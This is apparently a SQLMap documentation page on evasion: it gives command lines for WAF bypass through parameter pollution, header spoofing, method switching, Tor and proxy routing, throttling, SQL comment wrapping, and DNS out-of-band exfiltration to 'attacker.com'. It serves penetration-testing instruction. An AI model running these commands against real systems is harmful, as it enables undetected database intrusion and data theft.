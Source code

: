 ```yaml
---
title: Other Evasion Methods
description: Learn about additional evasion techniques in SQLMap to bypass security controls
---
```



Beyond tamper scripts and WAF detection, SQLMap offers several additional methods to evade detection during security testing. These techniques can help bypass various security controls when used appropriately in authorized testing scenarios.

## HTTP Parameter Manipulation

### Parameter Pollution

Using multiple instances of the same parameter:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="id=1&id=2" --param-del="&"
```

This technique can confuse some security filters that don't properly handle parameter pollution.

### Parameter Reordering

Changing the order of HTTP parameters:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="b=2&a=1&c=3" --param-del="&"
```

Some WAFs may only inspect the first few parameters or expect parameters in a specific order.

## HTTP Header Manipulation

### Custom Headers

Adding custom HTTP headers:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --headers="X-Forwarded-For: 127.0.0.1\nX-Custom-Header: Value"
```

This can bypass security controls that trust certain headers or don't inspect custom headers.

### Host Header Manipulation

Modifying the Host header:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --host="internal-system.local"
```

This can bypass security controls that rely on the Host header for validation.

## Request Method Switching

### Method Switching

Changing the HTTP method:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="id=1" --method=PUT
```

Some security controls may only inspect GET and POST requests but not other HTTP methods.

### Method Obfuscation

Using non-standard HTTP methods:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --method=CUSTOM
```

This can sometimes bypass security controls that only check standard HTTP methods.

## Traffic Routing and Proxying

### Multiple Proxies

Routing through multiple proxies:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --proxy="http://proxy1:8080" --proxy-cred="user:pass" --proxy-file="proxies.txt"
```

The `--proxy-file` option allows you to specify a list of proxies to rotate through.

### Tor Network

Routing through the Tor network:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tor --tor-port=9050 --tor-type=SOCKS5 --check-tor
```

This routes all SQLMap traffic through the Tor network, making it harder to trace and potentially bypassing IP-based restrictions.

## Timing and Rate Controls

### Request Delays

Adding random delays between requests:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --delay=2 --time-sec=10
```

This adds a 2-second delay between requests and sets a 10-second time for time-based blind injections.

### Throttling

Limiting the number of concurrent threads:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --threads=1
```

This can help avoid triggering rate-limiting mechanisms.

## Payload Obfuscation

### Inline Comments

Using inline comments in SQL statements:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --prefix="'/*" --suffix="*/--" --technique=B
```

This adds specific SQL comments before and after the injection payload.

### Custom Prefix and Suffix

Adding custom strings before and after the payload:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --prefix=")" --suffix="AND(1=1"
```

This helps when the injection point is within a specific SQL context.

## Advanced Techniques

### Out-of-Band Exploitation

Using out-of-band channels for data exfiltration:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dns-domain=attacker.com
```

This uses DNS requests for data exfiltration, which may bypass controls that only monitor HTTP traffic.

### Second-Order Injection

Testing for second-order SQL injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --second-url="http://www.example.com/page.php?id=1" --second-req="second-request.txt"
```

This tests for vulnerabilities where the injection is stored and then executed in a different location.


## Combining Evasion Techniques

For maximum effectiveness, combine multiple evasion techniques:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --random-agent --tamper=between,charencode,randomcase --delay=2 --tor --proxy="http://proxy:8080" --level=5 --risk=3
```

This comprehensive approach combines:
- Random user agent
- Multiple tamper scripts
- Request delays
- Tor routing
- Additional proxy
- Maximum test level and risk
